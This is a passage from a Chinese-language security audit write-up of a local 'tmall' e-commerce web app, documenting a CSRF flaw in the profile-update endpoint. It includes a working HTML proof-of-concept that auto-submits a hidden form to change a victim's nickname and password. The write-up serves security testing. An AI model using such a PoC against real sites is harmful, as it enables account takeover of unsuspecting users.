 




## 2、头像上传

和后台文件上传一样



## 3、CSRF漏洞

在修改信息处存在CSRF漏洞，能够修改登录密码，昵称等信息。

构造具体poc

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://127.0.0.1:8080/tmall/user/update" method="POST">
      <input type="hidden" name="user&#95;profile&#95;picture&#95;src" value="" />
      <input type="hidden" name="user&#95;nickname" value="123&#45;updateByCsrf" />
      <input type="hidden" name="user&#95;realname" value="updateByCsrf" />
      <input type="hidden" name="user&#95;password" value="Admin&#64;123" />
      <input type="hidden" name="user&#95;password&#95;one" value="Admin&#64;123" />
      <input type="hidden" name="user&#95;gender" value="0" />
      <input type="hidden" name="user&#95;birthday" value="2023&#45;11&#45;29" />
      <input type="hidden" name="user&#95;address" value="110101" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

但是点击的时候，会发现其实会跳转到登录界面，这是因为现在的高版本浏览器对CSRF的防护，具体见附中的讲解。这里使用火狐渗透版。

![image-20231227105313939](image-20231227105313939.png)

